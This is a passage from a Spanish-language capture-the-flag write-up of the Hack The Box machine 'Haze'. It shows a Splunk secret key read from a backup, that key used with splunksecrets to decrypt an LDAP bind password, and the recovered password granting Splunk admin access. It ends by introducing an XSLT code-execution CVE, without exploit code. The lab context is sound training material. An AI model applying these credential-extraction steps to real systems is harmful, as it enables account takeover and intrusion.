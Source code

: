 En paralelo, dentro del backup también encontré una copia del archivo `splunk.secret`, el cual difiere del extraido anteriormente en [Exploit Public Facing Application*](#exploit-public-facing-application).

```terminal
/home/kali/Documents/htb/machines/haze:-$ cat Splunk/etc/auth/splunk.secret
CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oPhVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B
```

De modo que, nuevamente al combinar este archivo `splunk.secret` con el valor cifrado `bindDNpassword`, pude obtener la contraseña en texto plano del usuario `alexander.green`.

```terminal
(venv)-/home/kali/Documents/htb/machines/haze:-$ splunksecrets splunk-decrypt -S Splunk/etc/auth/splunk.secret
Ciphertext: $1$YDz8WfhoCWmf6aTRkA+QqUI=
Sp1unkadmin@2k24
```

La contraseña desencriptada `Sp1unkadmin@2k24` resultó válida para la cuenta `admin`, lo que permite acceder a funciones administrativas a través de la interfaz web de Splunk.

![](assets/img/htb-writeup-haze/haze3_1.png)

---
### Command and Scripting Interpreter

Este nivel de acceso permite explotar la vulnerabilidad [CVE-2023-46214](https://nvd.nist.gov/vuln/detail/cve-2023-46214). Esta falla afecta a versiones de Splunk Enterprise anteriores a `9.0.7` y `9.1.2`, permitiendo ejecutar código arbitrario al procesar archivos maliciosos XSLT <a id="xml-injection" href="#cwe-91" class="cwe-ref">(CWE-91)</a> > <a id="code-injection" href="#cwe-94" class="cwe-ref">(CWE-94)</a>.

